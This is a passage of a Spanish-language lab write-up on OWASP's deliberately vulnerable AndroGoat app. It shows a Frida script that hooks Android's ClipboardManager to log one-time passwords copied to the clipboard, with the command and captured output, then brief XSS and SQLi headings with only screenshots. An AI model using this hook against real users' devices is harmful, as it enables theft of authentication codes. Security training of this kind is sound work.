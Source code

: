 En este caso se nos dan una vista que nos da copia a la clipboard un OTP al ingresar un número de tarjeta. Esto es peligroso ya que el portapapeles es compartido para todo el sistema. Para interceptarlo podemos utilizar por ejemplo frida:

```java
Java.perform(function() {
    var ClipboardManager = Java.use("android.content.ClipboardManager");
    ClipboardManager.setPrimaryClip.implementation = function(clip) {
        console.log("Clipboard set to: " + clip.getItemAt(0).getText());
        return this.setPrimaryClip(clip);
    };
});
```

```bash
frida -U -N owasp.sat.agoat -l cliper.js

     ____
    / _  |   Frida 17.2.6 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to CPH2437 (id=VOQ4JBEM8L69V8MF)
[CPH2437::owasp.sat.agoat ]-> Clipboard set to: 9886
Clipboard set to: 6521
Clipboard set to: 5162
Clipboard set to: 7104
```

# Input Validations

## XSS

Esta sección es vlnerable a XSS:

<br>
![Image]({{ site.baseurl }}/images/posts/AndroGOAT/GOAT-XSS-Solved.png){:width="200px"}

## SQLi

<br>
![Image]({{ site.baseurl }}/images/posts/AndroGOAT/GOAT-SQLi-Solved.png){:width="200px"}

## WebView
